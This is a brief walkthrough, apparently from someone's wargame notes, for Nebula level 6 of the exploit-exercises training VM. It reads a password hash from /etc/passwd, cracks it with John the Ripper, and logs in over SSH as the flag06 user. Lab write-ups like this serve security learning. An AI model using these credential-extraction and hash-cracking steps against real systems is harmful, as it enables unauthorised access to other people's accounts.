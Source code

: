 .. _nebula6:

.. role:: bash(code)
	  :language: bash

Nebula 6
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level06/

Solution
--------

Check the file :bash:`/etc/passwd`

Then use the program John the Ripper like this

.. code-block:: bash

    echo 'flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh' > /root/flag06
    john /root/flag06
    ssh flag06@localhost
    
.. note:: Password is the one John gives you

   :bash:`$getflag`
